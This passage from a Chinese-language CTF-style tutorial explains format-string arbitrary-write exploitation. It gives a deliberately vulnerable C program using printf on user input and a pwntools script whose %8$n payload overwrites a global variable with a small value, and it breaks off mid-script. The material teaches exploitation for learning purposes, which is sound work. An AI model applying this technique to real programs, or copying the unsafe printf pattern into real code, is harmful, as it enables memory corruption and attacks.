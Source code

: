 
![image-20220622171718046](https://img2022.cnblogs.com/blog/2080041/202206/2080041-20220622171718007-1978831113.png)

### 任意地址内存覆盖(任意写)

任意地址内存写(覆盖)的原理其实就是堆栈写(栈数据覆盖)的加强版，在堆栈写里面我们已经可以覆盖要覆盖的变量了，不过具体覆盖的数值(`大数(地址)、小数(小于4字节)`)还不能实现，这里主要学习如何覆盖成任意数字。

#### 覆盖小数(小于4字节)

首先呢，来学习如何把变量覆盖成小于4的数字，比如说覆盖成2。

还是老题目：(要求走a==2分支，并打印出`modified a for a small number.`)

    #include <stdio.h>
    int a = 123, b = 456;
    int main() {
      int c = 789;
      char s[100];
      printf("%p\n", &c);
      scanf("%s", s);
      printf(s);
      if (c == 16) {
        puts("modified c.");
      } else if (a == 2) {
        puts("modified a for a small number.");
      } else if (b == 0x12345678) {
        puts("modified b for a big number!");
      }
      return 0;
    }
    

问题思考分析：

这里的a变量是123，我们要把它覆盖成2那就需要用到堆栈写里面的技巧，把a变量地址放前面然后构造Payload对吗？不对因为a变量地址最小也是占用了4字节的，我们无论如何都不能覆盖成2，所以思路就是我把把地址写到后面去啊，又没说地址非得写在前面(我的笨脑瓜)，这样就可以构造任意小于4的值了。

这里我懒得在分步骤调试确定a位置了，直接上exp：

    #导入pwn模块
    from pwn import *
    #设置运行环境
    context(arch='i386',os='linux')
    context.terminal = ['tmux','splitw','-h']
    #封装进程,ELF解析
    p   = process("./overflow")
    elf = ELF("./overflow")
    #gdb.attach(p,"b printf")
    
    '''
    exp
    '''
    def exp():
        #接收消息直到出现'\n'
        c_address = int(p.recvuntil('\n',drop=True),16)
        #分支2的变量是a,从符号表中获取
        a_address  = elf.symbols['a']
        log,info("var c: %s" % hex(c_address))
        log,info("var a: %s" % hex(a_address))
        #构造Payload
        padding = b'11'
        padding_address = b'\x00\x00'
        Payload = padding + b'%8$n' + padding_address + p32(a_address)
        log,info("Payload: %s" % Payload)
        #发送Payload
        p.sendline(Payload)
    